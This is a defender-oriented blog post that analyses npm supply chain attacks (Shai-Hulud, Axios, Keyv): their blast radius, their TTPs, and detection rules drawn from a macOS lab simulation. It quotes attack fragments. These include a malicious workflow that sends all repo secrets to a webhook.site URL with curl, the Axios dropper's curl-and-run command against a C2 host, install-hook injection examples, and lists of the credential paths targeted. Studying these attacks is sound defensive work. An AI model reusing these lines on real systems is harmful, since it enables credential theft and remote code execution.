

+++
title = 'NPM Supply Chain Attacks Through a SOC Lens: Blast Radius, TTPs, and Detection'
date = 2026-08-30T00:44:44-07:00
lastmod = 2026-08-30T00:44:44-07:00
tags = ['Supply Chain Security', 'Detection Engineering']
categories = ['InfoSec']
author = 'Jun Wen'
images = ['/images/npm_supply_chain/cover.png']
featuredImagePreview = '/images/npm_supply_chain/cover.png'
toc = true
summary = "Shai-Hulud, Axios, Keyv — the endless supply chain incidents kept SOC teams busy. This post steps back to look at npm supply chain attacks through a SOC lens: where a poisoned package actually lands, the TTPs behind the campaigns, and what you can realistically detect with the telemetry you already collect."
+++

The past year has been a busy one for any SOC team that responds to supply chain attacks. Within the npm ecosystem alone we have seen Shai-Hulud 1.0 and 2.0, TanStack, Axios, and Keyv compromised, along with a steady trickle of smaller incidents in between — all of it reaching your SIEM the same way: a threat intel report naming packages and version ranges, followed by a scramble.

The response was always the same, too. We'd read the writeup and pull the IOCs — package names, versions, C2 domains, file hashes — then sweep the office and production estate for matches, find the affected hosts, and chase down their owners to get the package pulled, the keys rotated and the artifacts rebuilt. Then we'd close the ticket, because by that point something else was already on fire.

I got good at running that loop, but I never made time for the questions underneath it — the ones I kept circling back to during every incident. What's actually running on the machine when a poisoned package installs? How does one compromised maintainer account turn into hundreds of poisoned packages? Which of my machines genuinely need sweeping, and what's the real blast radius of a single poisoned install? And if the intel had never shown up at all, could I have caught any of it with the telemetry we already collect?

This post is my attempt to look at npm supply chain attacks through a SOC lens: their blast radius, the TTPs behind them, and where the detection opportunities actually are. It comes in three parts:

1. **Blast radius** — starting from npm fundamentals, where a poisoned package actually lands in an enterprise environment, and why the attacker's injection choice decides which of your machines fall in scope.
2. **TTPs** — drawing on StepSecurity's analyses of three recent npm supply chain incidents (Shai-Hulud, Axios, and Keyv), how these attacks are actually built, with propagation as the centerpiece: how one compromise becomes hundreds, and which other techniques show up along the way.
3. **Detection** — running a simulated poisoned package on macOS to see what it leaves behind in ESF and EDR telemetry, then turning that into rules you can actually run in your own environment.

---

## Blast Radius: what one `npm install` actually owns

What I want to work out here is to understand from SOC's view: when an npm supply chain attack hits your environment, which machines actually end up running the attacker's code, and what are those machines holding when they do. That only makes sense once a couple of npm mechanics are clear, so I'll start there.

### npm install

npm is the Node Package Manager, the default package manager for Node.js and the largest software registry in the world, and any JavaScript or TypeScript project pulls from it — usually many times a day. The command itself is simply `npm install <package-name>`, and for a normal package in the registry, npm will then:

1. Request the package metadata JSON from the registry
2. Resolve the exact version to install
3. Download the `.tgz` from the `dist.tarball` URL in that metadata
4. Verify integrity against the published `shasum`
5. Extract it into `node_modules/`

None of that is surprising, and that's the point — it all looks completely routine right up to step five, which is where the interesting behaviour hides.

### Package structure

Take [`is-number`](https://github.com/jonschlinkert/is-number), a real package with exactly one job: telling you whether a value is a finite number. Its entire structure is this simple:

```text
is-number/
├── package.json    ← the manifest (name, version, main, scripts…)
├── index.js        ← the actual code
├── README.md
└── LICENSE
```

Of those four files, `index.js` is the whole library:

```js
module.exports = function(num) {
  if (typeof num === 'number') {
    return num - num === 0;
  }
  if (typeof num === 'string' && num.trim() !== '') {
    return Number.isFinite ? Number.isFinite(+num) : isFinite(+num);
  }
  return false;
};
```

For any project that needs to use the package, you import it through the `require` function and call it like any other library:

```js
const isNumber = require('is-number');

isNumber(5);        // true
isNumber('42');     // true
isNumber('hello');  // false
```

Two things to hold onto, because the rest of this post turns on them: the code lives in `index.js`, and `package.json` holds nothing but metadata. It's that second file — the one with no library code in it at all — where this story goes.

### Lifecycle scripts

Inside `package.json` there's a `scripts` field, which most people know as where `npm test` and `npm run build` live. What's less obvious is that the same field also declares hooks that npm runs on your behalf, without you asking:

```json
{
  "name": "is-number",
  "version": "7.0.0",
  "scripts": {
    "preinstall":  "node preinstall.js",
    "postinstall": "node postinstall.js",
    "prepare":     "node prepare.js"
  }
}
```

| Hook | Fires |
|---|---|
| `preinstall` | before the package's dependencies are installed |
| `postinstall` | after the package itself is installed |
| `prepare` | on git-repo or local-path installs |

The timing is the whole thing. These scripts run during `npm install`, with your privileges, before a single line of your own code has `require()`'d anything. You never import the package. You never call a function. You type one command and someone else's script runs on your machine. That one primitive is the foundation of every attack in this post, and the rest of this section is just working through what falls out of it.

### Injection choices

Now let's flip it around and look from the attacker's side. Say you control a package — either by phishing a maintainer, or stealing a publish token — and you can push a malicious version to the registry.

There are two places to put the payload. This normally gets written up as attacker tradecraft, but for a defender it's something much more useful, because the choice they make decides which of your machines get hit.

Option A is to **poison the source**, which means editing the library itself:

```js
// index.js
module.exports = function(num) {
  require('child_process').exec(payload);   // ← added
  return num - num === 0;
};
```

Code planted this way fires when the app actually calls the function — so at runtime, in production, and only if that code path ever gets exercised.

Option B is to **hook the install**, leaving the library source completely untouched and instead declaring a script:

```json
"scripts": { "postinstall": "node evil.js" }
```

Code planted this way fires when the package is *installed*. Every time, on every machine that installs it, whether or not the app ever imports the library.



It's the same package and the same tarball either way, and yet those two options land on completely different sets of machines. Keep that in mind as we walk through where those machines actually are.

### Where it lands

#### Developer machines

The first group is every environment where a human types `npm install` and waits. That covers the local laptop, but in most organizations it now goes well beyond that, since remote and cloud development environments are standard — GitHub Codespaces, JetBrains remote development, Google Cloud Workstations, a devcontainer on a shared host. The details differ, but the shape that matters is identical: a machine sitting somewhere in your infrastructure, holding a developer's working credentials, running whatever the package author put in a `postinstall` script.

| Class | What it holds |
|---|---|
| **Local workstation** | the developer's own git tokens, cloud profiles, SSH keys and browser sessions |
| **Remote dev environment** — hosted IDEs, dev containers, managed workspaces | scoped credentials minted for the session, on a machine nobody is watching |

#### The release pipeline

The second group is every machine that runs `npm install` because a pipeline told it to, and this is the part that should change how you scope an incident. We can lay out a typical Node.js release pipeline, then ask at each stage what's on disk and what's actually executing:


Only two stages in that chain actually run `npm install`: the CI runner and the build server. Neither one is production, which is exactly why they get overlooked — and they're quietly the richest targets you have. By the time the build output reaches the artifact store, `evil.js` is just a file sitting in a bundle, because nothing downstream ever re-runs it, and the runtime never calls `npm install` at all since the dependencies were already resolved and packed at build time.

So the same poisoned tarball behaves like two completely different pieces of malware, depending on which side of the build boundary you're looking at:

| | CI runner | Build server | Artifact | Runtime |
|---|---|---|---|---|
| runs `npm install` | yes | yes | — | no |
| install hook (Option B) | executes | executes | inert file | inert file |
| poisoned source (Option A) | present, unused | present, unused | present | executes |
| credentials reachable | CI secrets, repo tokens, registry tokens, env | build secrets, signing keys, `~/.ssh`, `/etc`, internal network | none | the service's own identity |

### It's always the hook

In every large-scale npm supply chain attack of the past year, the attacker went with Option B. That's not a coincidence, and the reasons are consistent enough that you can plan around them.

1. **It's much less work.** You don't need to read the package source, hunt for a hot code path, or worry about breaking the tests. Add one line to `package.json`, drop in a file of your own, publish.

2. **Execution is guaranteed, not probabilistic.** A lifecycle script runs on every install, whereas a payload buried inside a function only runs if something actually calls that function — and in a big dependency tree, plenty of packages get installed and barely touched.

3. **The loot is better**, for all the reasons in the table above.

4. **It's the only sane trigger for a worm.** A self-propagating payload has to re-inject itself on every new victim, and it has to do that before anything else on the host gets a chance to. A lifecycle script is the earliest and most reliable place to hang that from.

That last one is what turns a single compromised maintainer account into a five-hundred-package incident, and it's where the next section picks up.

---

## TTPs


The payload analysis in this section draws on StepSecurity's public writeups of the three incidents:
* [ChainDrop — the npm worm behind the Keyv compromise](https://www.stepsecurity.io/blog/chaindrop-npm-worm)
* [axios compromised on npm — malicious versions drop a remote access trojan](https://www.stepsecurity.io/blog/axios-compromised-on-npm-malicious-versions-drop-remote-access-trojan)
* [ctrl/tinycolor and 40+ npm packages compromised](https://www.stepsecurity.io/blog/ctrl-tinycolor-and-40-npm-packages-compromised)


In this section we'll go through the TTPs of three large-scale npm supply chain incidents, working backwards from the most recent, and look for what they have in common. The entry points differ, the payloads differ, and only two of the three propagate at all — but the same handful of techniques carries all of them.

### Keyv, August 2026

#### Initial compromise

The attacker took over the maintainer's GitHub account and pushed poisoned commits into `keyv`, `cacheable` and `ecto`, and because those commits then triggered each project's own release workflow, npm received a publish that was signed and attested exactly like every previous one. Eleven packages went out inside an hour, among them `keyv@6.0.0`, which on its own sees over 150 million weekly downloads.

#### The poisoned package

Comparing `keyv@6.0.0` against the preceding release candidate is the fastest way to see what was done, because the library code is untouched and only a handful of lines differ:

```diff
  {
    "name": "keyv",
-   "version": "6.0.0-rc.1",
-   "files": ["dist/", "src/"],
+   "version": "6.0.0",
+   "files": ["dist/", "src/", "setup.mjs", "Math_Symbol.js"],
    "scripts": {
+     "preinstall": "node setup.mjs",
      "test": "..."
    }
  }
```

Two files came along with that hook, and their names were picked as carefully as everything else: `setup.mjs`, a 30 KB dropper, and `Math_Symbol.js`, a 727 KB worm. Both read as ordinary build tooling if you're just scanning a file listing.

#### The dropper

`setup.mjs` is more interesting than your average dropper, because instead of pulling a payload from a C2, it goes and fetches a runtime:


Only once Bun is on disk does the real payload, `Math_Symbol.js`, run — and it runs under `bun` rather than `node`. Worth noting now, because it matters a lot for detection later.

#### Credential harvesting

The stage 2 payload is a thorough credential collector. It walks known credential paths — `~/.npmrc`, `~/.aws/`, `~/.kube/config`, SSH keys, Slack cookies, cryptocurrency wallets — and dumps `process.env` wholesale. It goes after cloud providers, pulling AWS credentials from environment variables, shared config, IMDSv2 and ECS credential chains, then enumerating Secrets Manager and SSM parameters, and it does the equivalent for Vault and for in-cluster Kubernetes. New for this generation, it also collects AI tool credentials: `.claude/credentials.json`, `.codex/auth.json`, `.cursor/credentials.json`, `.openai/auth.json` and a dozen similar paths. On a CI runner it goes further still, running `sudo python3` to read `/proc/<pid>/mem` of the `Runner.Worker` process and grepping for `"isSecret":true` — which pulls back the secrets that were masked in the workflow log.

#### Propagation, loop one — the npm token

Among everything harvested, one credential turns a compromise into an outbreak:


This is the mechanism behind the question I opened with. Those services aren't being singled out over and over — they just sit downstream of maintainers who keep getting caught in the loop, and every new victim widens the wave that follows.

#### Propagation, loop two — the GitHub token

The GitHub token stolen in step two opens a second and entirely separate propagation path, and the worm exercises three distinct capabilities with it.

**Repository persistence.** The worm pushes four files to every branch of every repository the token can write to:

```text
.claude/settings.json      .vscode/tasks.json
.claude/setup.mjs          .vscode/setup.mjs
```

A `.claude/settings.json` can declare a `SessionStart` hook, and a `.vscode/tasks.json` can declare a task with `"runOn": "folderOpen"`. Both are instructions to the editor to run a command automatically, without asking. So the infection no longer needs anyone to install anything: somebody clones the repo, opens it in VS Code or points a coding agent at it, and the editor executes `setup.mjs` while loading the workspace. Pulling the repo is now the entire attack.

**Secrets laundering.** The worm also commits a workflow called `Run Copilot (on: push)` that writes `${{ toJSON(secrets) }}` into a build artifact, then polls `/actions/runs`, downloads the artifact and deletes the ref behind it. The repo's entire secret store walks out through a legitimate Actions artifact, and the trail gets cleaned up afterwards.

**Revocation-triggered reinfection.** It installs `~/.local/bin/gh-token-monitor.sh` under systemd or a LaunchAgent, polling `api.github.com/user` every 60 seconds for 24 hours. When the token stops working, that isn't a failure — it's the trigger. Revoking the token is exactly the event the implant has been waiting for, which neatly inverts the standard IR instruction to rotate credentials first and ask questions later.

### Axios, March 2026

`axios` is the odd one out, and useful for exactly that reason: it doesn't self-propagate at all. The attacker compromised one enormously popular package and stopped there.

#### Initial compromise

The entry point here was the npm account rather than GitHub. The primary maintainer's account was hijacked and its registered email changed, and the attacker then published `axios@1.14.1` and `axios@0.30.4` by hand with a stolen classic npm token, bypassing the project's normal GitHub Actions release pipeline entirely.

#### Injection via a phantom dependency

The diff here is even smaller than Keyv's, because all 85 source files are bit-for-bit identical to the previous version and `package.json` gains exactly one line:

```diff
  "dependencies": {
    "follow-redirects": "^2.1.0",
    "form-data": "^4.0.1",
    "proxy-from-env": "^2.1.0",
+   "plain-crypto-js": "^4.2.1"
  }
```

Nothing in axios has ever referenced `plain-crypto-js` — grep the whole source tree and the name doesn't appear once — but that turns out not to matter at all, because listing a package under `dependencies` is instruction enough on its own. From the moment that one line went out, anyone running `npm install axios` also pulled down `plain-crypto-js` without asking for it and without ever importing it, and the lifecycle hook inside that package fired on their machine as part of the same command. That's what makes it a phantom dependency: present in the manifest, absent from the code, and executed anyway.

None of it was improvised, either. The dependency had been built and quietly aged in advance:


#### The payload

`setup.js` decodes its configuration and then splits three ways:


Unlike Keyv, this payload is a remote access trojan rather than an information stealer, so there's no credential sweep, no propagation loop and no republishing anywhere in it. The attacker just wanted persistent access to whatever machine happened to run the install.

### Shai-Hulud, September 2025

This was the first of the three, and the one that established the template the others iterate on.

#### Initial compromise

The attacker took over the `@ctrl/tinycolor` maintainer's GitHub account, most likely by phishing, and used that access to pull out npm publish tokens. The exact entry point has never been publicly confirmed.

#### The payload

A malicious `postinstall` was injected into `@ctrl/tinycolor@4.1.1` and `4.1.2`, running a 3.6 MB Webpack-bundled `bundle.js` asynchronously on install. Its credential harvesting is recognizably the ancestor of what Keyv would do a year later, just narrower: it spawns [TruffleHog](https://github.com/trufflesecurity/trufflehog) with `trufflehog filesystem / --json` and lets a legitimate secret-scanning tool find the credentials for it, dumps `process.env` wholesale, and enumerates AWS Secrets Manager and GCP secrets through their SDKs.

Propagation used the same npm token loop described above, in a simpler form: `NpmModule.updatePackage` queried the registry for up to twenty packages owned by the maintainer, fetched each tarball, wrote `bundle.js` and a matching `postinstall` entry into it, and force-published the result. Over 500 packages were eventually affected.

#### Exfiltration

There were two exfiltration channels, both of which abuse infrastructure the victim already trusts, and the first works by committing a workflow to the victim's repositories:

```yaml
# .github/workflows/shai-hulud-workflow.yml
on: push
jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      - run: |
          echo "$CONTENTS" | base64 -w 0 | base64 -w 0
          curl -d "$CONTENTS" https://webhook.site/bb8ca5f6-...
        env:
          CONTENTS: ${{ toJSON(secrets) }}
```

`toJSON(secrets)` serializes every secret configured on the repo, and the double base64 is there to defeat naive log inspection. Any push then ships the whole secret store to an attacker-controlled webhook.

The second channel is the one people remember. Harvested credentials were pushed into newly created public GitHub repos named `Shai-Hulud` under each victim's own account, which meant that for a while you could watch the outbreak spread just by searching GitHub for the repo name and counting results. It's also how the incident got its name.

### Summary

Lets's step back from all three attacks, we can find out that the details vary, but the load-bearing techniques don't:

| Technique | Shai-Hulud | Axios | Keyv |
|---|---|---|---|
| Entry point | GitHub account | npm account | GitHub account |
| Execution trigger | `postinstall` | `postinstall` (in a dependency) | `preinstall` |
| Payload delivery | bundled into the package | phantom dependency | dropper fetches a runtime |
| Credential harvesting | TruffleHog, env, AWS, GCP | — | ~140 paths, CI memory, cloud, AI tools |
| npm token propagation | yes, up to 20 packages | no | yes, with self-signed provenance |
| GitHub token propagation | workflow exfiltration | no | workflows, repo persistence, token monitor |
| Persistence on the host | no | RAT, per-platform | systemd / LaunchAgent token monitor |

Every one of them runs its code from an install hook, and every one does that work inside the lifecycle of `npm install`.

---

## Detection

Every `npm install` in an enterprise leaves endpoint telemetry behind, picked up by an EDR agent on a laptop or a runtime sensor on a cloud workload.

So in this section we'll run a simulated malicious package on a macOS endpoint, capture everything it produces at the kernel level, map that shape onto the three real incidents from the previous section, and discuss with detections you can deploy in your environment.

### Simulated poisoned package

To simulate the attack I took a copy of `is-number` and added one thing: a `postinstall` script that makes an HTTPS request to `example.com`, spawns a shell that writes `ps` output to a file, and appends a line to a log. Nothing is obfuscated and nothing is hidden. The install runs from a local `.tgz` rather than from the registry, which keeps the capture clean.

To capture them, I read Apple's [Endpoint Security Framework](https://developer.apple.com/documentation/endpointsecurity) directly through the `eslogger` binary that ships with macOS. Basically every macOS EDR is built on ESF and gets these same events, but an agent has to make performance tradeoffs and will drop or summarize things on the way to the console. So what `eslogger` shows is the upper bound — the most any macOS EDR could possibly have told you.

### Endpoint Telemetry

Reconstructing the process graph from those events gives the whole picture in one shape:

```text
76041 /bin/zsh
└── 77927 npm install ~/lab/npm_registry_demo/is-number-lab/is-number-7.0.0.tgz
    └── 77944 node postinstall.js
        └── 77945 /bin/sh -c
              mkdir -p "/tmp/is-number-lab-artifacts"
              ps -axo pid,ppid,pgid,command > "/tmp/is-number-lab-artifacts/process_list.txt"
              sleep 1
            └── 77947 ps -axo pid,ppid,pgid,command
```

with the file activity hanging off the same two processes:

```text
77944  node postinstall.js
       create  /private/tmp/is-number-lab-artifacts/postinstall.log
       write   /private/tmp/is-number-lab-artifacts/postinstall.log

77945  /bin/sh -c …
       redirects command output to /tmp/is-number-lab-artifacts/process_list.txt
```

The shape matters more than the contents here. A lifecycle script can't do anything interesting without becoming a child of `npm install`, so every action the payload takes hangs off that one node in the graph.

All three of the real attacks get their execution the same way, through an install hook, so the TTPs from the previous section land on the endpoint in much the same shape.

Keyv:

```text
npm install keyv-6.0.0.tgz
└── sh -c node setup.mjs
    └── node setup.mjs
        ├── /bin/bash /usr/bin/ldd --version
        ├── unzip -v
        ├── unzip -ojq $TMPDIR/bun-dl-*/bun-linux-x64-baseline.zip
        └── $TMPDIR/bun-dl-*/bun node_modules/keyv/Math_Symbol.js
            ├── sudo python3 <helper>
            │   └── read /proc/<Runner.Worker pid>/mem
            ├── read ~/.npmrc, ~/.aws/, ~/.claude/ …
            └── POST https://npm-cache.com:443/router
```

Shai-Hulud:

```text
npm install @ctrl/tinycolor
└── node bundle.js
    ├── read ~/.npmrc, ~/.aws/credentials …
    ├── trufflehog filesystem / --json
    ├── npm version patch --force
    │   └── npm publish --access public
    ├── /bin/bash <base64-decoded script>
    │   └── curl -X PUT api.github.com/repos/*/contents/
    │            .github/workflows/shai-hulud-workflow.yml
    └── POST https://webhook.site/bb8ca5f6-…
```

And Axios (Linux):

```text
npm install axios@1.14.1
└── sh -c node setup.js                    cwd: node_modules/plain-crypto-js
    └── node setup.js
        └── /bin/sh -c curl -o /tmp/ld.py -s http://sfrclak.com:8000/6202033
                       && nohup python3 /tmp/ld.py http://… &
            ├── curl -o /tmp/ld.py …
            └── nohup python3 /tmp/ld.py … 
```

### Detection 1: look for suspicious activity by nature

The first idea is the straightforward one: instead of trying to detect supply chain attacks as such, look for the general TTPs that get abused across all sorts of campaigns and let the poisoned installs fall out of them. Here are the examples I found most usable across the three incidents.

1. **`curl` or `wget` writing into a temporary directory, followed by execution of that same path.** The Linux branch of the Axios dropper pulls `/tmp/ld.py` from its C2 and immediately runs it under `nohup`. A download utility writing into `/tmp`, with that same path turning up in a command line moments later, is an old pattern and rarely legitimate on a build runner.

2. **A LOLBin executing from a non-standard path.** On Windows the same dropper copies PowerShell to `%PROGRAMDATA%\wt.exe` and runs the copy, specifically to get past rules that key on the interpreter's normal location, so alerting whenever a known interpreter runs from outside its expected directory catches the rename whatever the script then does.

3. **Suspicious child processes of `osascript`.** The macOS branch of Axios drives its download through `osascript`, so what you want is `osascript` spawning something it has no business spawning — `curl`, `wget`, `python`, a shell. This is worth having regardless of npm, since `osascript` is among the most abused living-off-the-land binaries on macOS and shows up in ClickFix-style campaigns and plenty more.

4. **A single process reading a large number of credential paths in quick succession.** Every information stealer here does it, whether that's Shai-Hulud across both generations or Keyv with its roughly 140-path sweep, and the signature is less about which files are touched than about how many one process touches in how little time. Whether you can build on it depends on your EDR, since not every product records file reads, but where it does this is a strong signal.

5. **A LaunchAgent being created during an install.** Keyv registers its token monitor as a LaunchAgent, and a package installation has no legitimate reason to register a background service, so persistence appearing at all is worth an alert. The caveat is that plenty of ordinary software registers LaunchAgents too, so the rule needs a substantial allowlist before it is usable.

### Detection 2: look for context-suspicious activity

The second idea is to look for events that don't belong in an `npm install` lifecycle at all. TruffleHog is the clearest example: plenty of engineers run it deliberately and plenty of pipelines run it as a scanning step, so alerting on the binary alone isn't viable in most environments. But TruffleHog running underneath an `npm install` is suspicious, because no package's install hook has any business scanning your filesystem for secrets.

Which makes the definition of "underneath an install" the important part. The rule has two halves: match a specific event, then walk up the process chain from it and check whether `npm install` shows up in any ancestor's command line. If it does, alert. Whether you can build that depends entirely on what your telemetry gives you. Some products expose process ancestry natively, in which case the second half is one condition against that field and you're done. Most don't, and the parent you get in the event row is usually just `node` or `sh`, which tells you nothing — so you have to rebuild the chain yourself, joining process creation events back to their parents one level at a time until you either find the install or run out of levels.

With that established, the examples are all the same rule with a different first half.

1. **A Bun process initiating network connection beneath an install** This TTP is shared between Keyv and Mini Shai-Hulud, both of which reach for Bun so their payload never runs under `node`, and in both cases that same Bun process then goes on to contact its C2. The first half is already unusual on its own: a Bun process whose script argument — or, where your telemetry records it, whose working directory — sits inside `node_modules` isn't what ordinary Bun usage looks like. Asking for the outbound connection from that same process as well is what makes it high fidelity, because running the payload and then calling home is exactly what these worms do and almost nothing else does.

2. **`trufflehog` executing beneath an install.** Shai-Hulud reached for it rather than writing its own scanner, which is efficient for the attacker and convenient for the defender, since a well-known binary is easy to match on.

3. **Writes to AI agent or editor hook files beneath an install.** This is the TTP from [Mini Shai-Hulud](https://www.stepsecurity.io/blog/mini-shai-hulud-is-back-a-self-spreading-supply-chain-attack-hits-the-npm-ecosystem), which drops `.claude/settings.json`, `.claude/setup.mjs` and `.vscode/tasks.json` onto the endpoint during the install. Resolving a dependency has no reason whatsoever to touch an editor's or an agent's configuration, so a package install modifying those files is anomalous on its face. The caveat is that EDR products drop a lot of file events, so confirm your telemetry actually records file writes before building on this.

4. **`gh auth token` in a command line beneath an install.** Keyv uses the GitHub CLI to lift a token rather than parsing config files, which turns credential theft into an ordinary-looking command that's nonetheless trivial to match.

5. **A Python process reading another process's memory beneath an install.** Both Keyv and Shai-Hulud 2.0 scrape secrets out of the CI runner's memory this way, and a `python3` process opening `/proc/<pid>/mem` during an install is worth a second look.

---

## Conclusion

In this article we reviewed the recent npm supply chain attacks through a SOC's lens, working out the blast radius, going through the TTPs, and discussing where the detection points are.

If the next wave of npm supply chain attacks shows up with no threat intel in front of it, I believe we still have a decent chance of catching it. And if the intel does show up first, which it usually does, then knowing how these attacks actually work will make our response faster and our scoping better.

These detections are a starting point rather than a finished set, so if you have thoughts on them, or ideas of your own, I would be glad to hear from you :)
